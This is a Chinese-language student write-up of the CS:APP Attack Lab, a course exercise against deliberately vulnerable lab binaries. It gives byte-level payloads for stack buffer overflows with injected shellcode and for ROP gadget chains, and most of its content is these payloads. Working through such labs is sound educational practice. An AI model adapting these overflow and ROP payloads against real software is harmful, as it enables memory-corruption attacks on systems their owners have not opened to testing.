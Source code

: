 # Attack Lab

任务总评：虽然我是pwn弟弟，但题目难度真是easy pwn（注意是x64下的pwn）。

解析机器码的几种方式（pwntools、x64dbg、在线）。

## 1.栈溢出

### touch1

基本栈溢出，缓冲区长度是40

```
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
c0 17 40 00 00 00 00 00
```

### touch2

第二题难度也不大，需要在到达touch2之前，把cookie变成参数val的值，需要在栈中注入代码，然后缓冲区溢出修改返回的地址值位栈中注入代码的位置，然后执行完后，把栈顶改为touch2的地址即可。

```
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
51 51 51
51 51 51 51 51
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
78 dc 61 55 00 00 00 00
```

### touch3

第三题也是注入代码，将 `cookie` 的字符串的地址传入函数，注入代码和第二题类似，但是注意因为第三题中，后续操作会将 buf 栈中的 40 个字节覆盖了，所以不能将字符串存储中这里，改为存储在调用函数前的栈中，通过打断点得到其栈顶地址是 `0x5561dca0` 。所以应该把字符串存入的地址设为 `0x5561dca8` ，这个地址在输入的 16 进制中就紧跟着跳转的地址。   
注入的代码（已经反编译了）：

```
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
```

再和上题类似填充至 40 字节，附上跳转地址。再将 `cookie` 转化为 16 进制的字符串附到跳转地址后面，根据 `ASCII` 码，这里的 `cookie` 值 `0x59b997fa` 就是 `35 39 62 39 39 37 66 61 00` 这里末尾加 `00` ，我不知道是什么意思，不过看很多人都加了，我也跟风。。经验证，加不加对结果无影响。因而最终答案是：

```
48 c7 c7 a8 dc 61 55 
68 fa 18 40 00 
c3 
30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00
```

## 2.ROP

### touch2

```
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
ab 19 40 00 00 00 00 00  /* jump to 4019ab popq %rax */
fa 97 b9 59 00 00 00 00  /* cookie  */
a2 19 40 00 00 00 00 00  /* jump to 4019a2  movq %rax, %rdi  */
ec 17 40 00 00 00 00 00 00 /* touch2 */
```

### touch3

```
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
06 1a 40 00 00 00 00 00  /* jump to 401a0b movq %rsp, %rax */
d8 19 40 00 00 00 00 00  /* jump to 4019d8 add $0x37, %al */
a2 19 40 00 00 00 00 00  /* jump to 4019a2  movq %rax, %rdi  */
fa 18 40 00 00 00 00 00  /* jump to 4018fa touch3 */
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 35
39 62 39 39 37 66 61 00 /* cookie */
```

多了canary，，不过还是挺简单